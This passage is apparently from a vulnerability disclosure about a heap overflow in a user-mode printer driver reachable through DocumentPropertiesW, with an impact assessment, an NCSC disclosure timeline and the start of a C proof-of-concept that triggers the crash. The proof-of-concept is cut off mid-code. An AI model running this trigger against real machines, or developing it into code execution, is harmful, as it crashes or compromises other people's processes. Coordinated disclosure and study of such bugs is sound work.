 ```c
}

```


Now the main issue here is that final memcpy, it is assuming that the output
(`(void *)((longlong)param_2 + (ulonglong)uVar1)`) has been allocated with at
least the required amout of memory.


### Impact:

- This is ONLY in user space so there is no risk of Kernel comprimise here, this is a user-mode DLL not a kernel mode.
- Due to the above I dont think its possible for privilege escalation.
- This can cause a dos attack on any process that is trying to invoke the `DocumentPropertiesW`
- Since this is a heap corruption error in usermode then I think someone smarter than me would be able to move this into code execution.


## Timeline:

- Tue, Jul 29 2025: Bug discovered and reported to NCSC
- Fri, Aug 1 2025: Response from NCSC
- Wed, Aug 13 2025: NCSC reported bug to vendor
- Mon, Oct 6 2025: NCSC informed me that the disclosure period has ended and I am free to post about this.


## Appendix:

### A - POC

Note that this is just to show the crash, and this is not publishing any real exploit.

```c
#include <windows.h>
#include <winspool.h>
#include <stdio.h>

int main() {
    HANDLE hPrinter;
    WCHAR printerName[] = L"TP 3250"; // Is this always the same for all printers?? doesnt feel right ..

    if (!OpenPrinterW(printerName, &hPrinter, NULL)) {
        printf("OpenPrinterW failed: %lu\n", GetLastError());
        return 1;
    }

    printf("OpenPrinterW successful: handle = %p\n", hPrinter);

    DWORD extra = 0x740;
    DWORD outBufSize = 320;
    BYTE inputBuf[0x800] = {0};
    PDEVMODEW pIn = (PDEVMODEW)inputBuf;
    wcscpy(pIn->dmDeviceName, printerName);
    pIn->dmSize = sizeof(DEVMODEW);
    pIn->dmDriverExtra = extra;

    BYTE *outBuf = (BYTE*)malloc(outBufSize);
    if (!outBuf) {
        printf("wtf failed to allocate output buffer\n");
        ClosePrinter(hPrinter);
        return 1;
```